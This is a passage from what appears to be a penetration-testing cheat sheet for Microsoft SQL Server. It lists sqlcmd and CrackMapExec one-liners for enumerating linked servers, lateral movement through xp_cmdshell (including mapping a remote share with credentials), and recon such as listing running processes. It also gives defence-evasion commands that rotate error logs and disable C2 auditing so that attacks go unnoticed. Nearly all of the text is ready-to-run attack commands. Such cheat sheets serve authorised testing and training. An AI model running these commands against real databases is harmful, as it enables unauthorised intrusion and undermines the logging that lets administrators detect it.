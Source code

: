 #### 6.1 MSSQL Linked Servers
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "SELECT name, data_source FROM sys.servers WHERE is_linked = 1;"
  ```
  Enumerate linked servers for potential lateral movement.

- **CrackMapExec (CME)**:
  ```bash
  cme mssql <target_ip> -u <username> -p <password> --linked-procs
  ```
  CME can also enumerate and exploit linked servers for lateral movement.

#### 6.2 Lateral Movement via SQLCMD
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC ('xp_cmdshell ''net use Z: \\\\linked_server\\share /user:domain\\user password''') AT [linked_server];"
  ```
  Execute commands on a linked server to move laterally.

## 7. Defense Evasion

#### 7.1 Clear MSSQL Logs
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_cycle_errorlog;"
  ```
  Rotate the MSSQL error logs to evade detection.

#### 7.2 Disable Auditing
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'c2 audit mode', 0; RECONFIGURE;"
  ```
  Disable C2 auditing on the MSSQL server to evade detection.

## 9. Internal Reconnaissance

#### 9.1 Enumerate SQL Server Configurations
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_configure;"
  ```
  List all SQL Server configurations and their current settings.

#### 9.2 Enumerate Running Processes
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'tasklist';"
  ```
  Enumerate all running processes on the server by executing the `tasklist` command via `xp_cmdshell`.
